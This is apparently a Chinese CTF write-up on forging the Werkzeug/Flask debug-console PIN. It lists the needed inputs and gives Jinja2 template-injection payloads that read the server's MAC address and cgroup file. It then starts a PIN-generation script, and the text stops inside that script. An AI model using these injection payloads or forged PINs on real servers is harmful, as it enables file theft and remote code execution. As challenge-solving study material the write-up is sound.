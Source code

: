 我们已经知道，开启debug模式会泄露部分源码，更严重的安全问题是**debug页面中包含Python的交互式shell，可以执行任意Python代码**  

而旧版的flask是不需要输入pin码就可以执行代码的，其危害不言而喻，而在新的flask版本中，需要输入pin码才能执行自定义的代码，所以我们可以把pin码理解为进入交互shell的密码。  

关于pin码的生成机制我就不说了，这一块感觉不是我现在能搞明白的，下面会附上文章，我们要知道，如果要想得到pin码，那么我们需要获取如下信息：  

	1、服务器运行flask所登录的用户名。通过/etc/passwd中可以猜测为flaskweb 或者root，此处用的flaskweb
	
	2、modname。一般不变就是flask.app
	
	3、getattr(app, “__name__”, app.__class__.__name__)。python该值一般为Flask，该值一般不变
	
	4、flask库下app.py的绝对路径。报错信息会泄露该值。题中为/usr/local/lib/python3.7/site-packages/flask/app.py（这里又是debug模式带来的安全问题）
	
	5、当前网络的mac地址的十进制数。通过文件/sys/class/net/eth0/address 获取(eth0为网卡名)
	
	6、机器的id：对于非docker机每一个机器都会有自已唯一的id
	Linux：/etc/machine-id或/proc/sys/kernel/random/boot_i，有的系统没有这两个文件
	Windows系统：
	docker：/proc/self/cgroup

首先获取mac地址：  

	{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/sys/class/net/eth0/address','r').read() }}{% endif %}{% endfor %}  

得到mac地址02:42:ac:10:a9:51

[![](https://pic.imgdb.cn/item/6094eec5d1a9ae528f798533.png)](https://pic.imgdb.cn/item/6094eec5d1a9ae528f798533.png)  

然后将mac地址转化成十进制数为2485377870161。  

接下来是获取机器id：  

	{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/proc/self/cgroup','r').read() }}{% endif %}{% endfor %}  

得到id为：6f2214d51457a0a7a59e597564a2b066a05375f51c5dbe1742b5d5dea9e929da

[![](https://pic.imgdb.cn/item/6094eff2d1a9ae528f8592f1.png)](https://pic.imgdb.cn/item/6094eff2d1a9ae528f8592f1.png)

接下来用大佬的脚本来生成pin码（再次直呼tql）  

	import hashlib
	from itertools import chain

	probably_public_bits = [
    'flaskweb',#服务器运行flask所登录的用户名
    'flask.app',#modname
    'Flask',#getattr(app, "\_\_name__", app.\_\_class__.\_\_name__)
    '/usr/local/lib/python3.7/site-packages/flask/app.py',#flask库下app.py的绝对路径
	]

	private_bits = [
    '2485377870161',#当前网络的mac地址的十进制数
    '6f2214d51457a0a7a59e597564a2b066a05375f51c5dbe1742b5d5dea9e929da'#机器的id
	]

